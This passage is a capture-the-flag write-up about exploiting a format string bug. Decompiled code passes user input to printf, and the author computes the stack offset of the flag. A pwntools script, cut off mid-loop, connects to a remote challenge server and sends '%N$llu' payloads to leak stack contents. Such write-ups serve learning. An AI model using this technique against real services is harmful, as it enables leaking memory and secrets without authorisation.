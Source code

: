 ```
      puts("Do you have the control?");
      __isoc99_scanf("%1023[^\n]", &format);
      while ( getchar() != 10 )
        ;
      printf(&format, &format, v4);
      puts("It does not look like. You have the alt!");
    }
    else
    [...]
```

We are able to provide a format string for printf and the flag is on the stack in the same function. We just need to retrieve the position of the flag relative to ESP when `printf(&format, &format, v4);` is called. Running find ctf in peda returns the stack address where the ctf is stored `0x7fffffffca90` and the esp is at `0x7fffffffc680` when calling `printf` so we need to print starting from the position`(0x7fffffffca90 - 0x7fffffffc680) / 8 = 130`and up.

We use the positional specifier for printf `%130$llu`in order to print the full 8B (which is not really necessary due to how the flag is structured).
I wrote the following exploit script:

```
from pwn import *

local = False

exec_path = "./chall"
HOST = "35.246.180.101"
PORT = 31425

flag = ""

for num in range(130, 160):
	if local:
		io = process(exec_path)
	else:
		io = remote(HOST, PORT)
	payload = '%' + "%d" % num + "$llu"
	io.recvline()
	io.recvline()

	io.sendline("a")
	if not local:
		io.recvline() # the double a	
	io.recvline() # the a

	io.recvline()
	io.recvline()
	io.sendline("a")

	if not local:
		io.recvline() # the double a
	io.recvline() # the a

	print(io.recvline())
	print(io.recvline())
	io.sendline(payload)

	if not local:
		io.recvline()

	good_result = io.recvline()

```